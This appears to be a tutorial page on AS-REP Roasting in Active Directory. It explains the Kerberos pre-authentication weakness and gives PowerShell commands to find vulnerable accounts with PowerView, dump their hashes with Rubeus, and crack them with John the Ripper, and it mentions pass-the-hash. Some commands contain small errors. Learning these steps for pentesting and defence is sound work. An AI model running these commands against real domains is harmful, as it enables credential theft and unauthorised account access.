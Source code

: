 
AS-REP Roasting is a technique used to exploit a misconfiguration in the Kerberos authentication protocol. 

- It specifically targets a vulnerability in the way Kerberos handles authentication requests. 
- In Kerberos protocol, When user wants to authenticate to a service, they send an authentication Service Request (AS-REQ) to the key distribution Centre (KDC). The KDC then responds with an Authentication Service Reply (AS-REP), which includes a ticket granting ticket (TGT). The TGT is encrypted using the user's password hash. 
- AS-REQ Roasting takes advantage of the fact that some users in AD may have the "Do not require Kerberos pre-authentication" option enabled. 
- This option allows the AS-REP to be requested without the need for the user's password. 

An Attacker can identify these vulnerable to accounts by querying the AD for accounts with this option enabled. 

### Practical

Tasks:
- Identify vulnerable accounts with enabled "Do not require pre-authentication" option.
- Exploit AS-REP Roasting to extract password hashes. 
- Crack hashes for plaintext passwords. 


### Identify Vulnerable accounts:

First, will load the powerview. Then will run the following command. 

```powershell
Get-DomainUser | where-object {&_.UserAccountControl like "*DONT_REQ_PREAUTH*" }
```

The above command will list all the user accounts which are vulnerable.


### Exploiting 

We will use Rubeus tool for this attack.

```powershell
.\Rubeus.exe asreproast /usr:johnny /outfile:hashes.txt
```


### Cracking Hashes:

Now we will use the john the ripper tool to crack the hash we found earlier. 

```powershell
.\john.exe .\hashes.txt --format=krb5asrep --wordlist=rockyou.txt
```


We can use the found password to login as the new user or we can also perform pass the hash attack without cracking the password. 

